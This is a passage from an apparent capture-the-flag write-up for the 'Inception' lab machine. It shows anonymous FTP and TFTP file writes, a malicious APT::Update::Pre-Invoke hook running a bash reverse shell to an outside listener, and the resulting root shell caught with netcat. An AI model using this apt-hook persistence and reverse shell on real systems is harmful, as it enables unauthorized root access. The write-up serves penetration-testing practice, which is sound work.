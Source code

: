 ```
tftp> put test.txt /home/test.txt
Sent 6 bytes in 0.0 seconds
------------------------------------------------
root@Inception:/tmp# ftp 192.168.0.1
Connected to 192.168.0.1.
220 (vsFTPd 3.0.3)
Name (192.168.0.1:cobb): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /home
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-rw-    1 0        0               5 May 27 03:35 test.txt
226 Directory send OK.
ftp> 
```

### Exploiting apt update
Using the tutorial from [here](https://www.cyberciti.biz/faq/debian-ubuntu-linux-hook-a-script-command-to-apt-get-upgrade-command/), we can hook a script command during the ```apt update```. Since we know that ```apt update``` command runs every 5mins, we can use this exploit to create a reverse shell

Next, we will craft a reverse shell command and save the file in the /tmp directory

```
root@Inception:/tmp# cat exploit
APT::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/10.10.16.6/4000 0>&1'"}
```

Next, we will move the exploit script to the /etc/apt/apt.conf.d/ directory using tftp

```
tftp> put /tmp/exploit /etc/apt/apt.conf.d/exploit 
Sent 80 bytes in 0.0 seconds
```

After a while, when the ```apt update``` runs, the script will be executed and there will be a reverse shell connection to our local machine
### Obtaining root flag
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000       
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.67] 57166
bash: cannot set terminal process group (4595): Inappropriate ioctl for device
bash: no job control in this shell
root@Inception:/tmp# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
root@Inception:/tmp# 
```
## Post-Exploitation
### Script for LFI
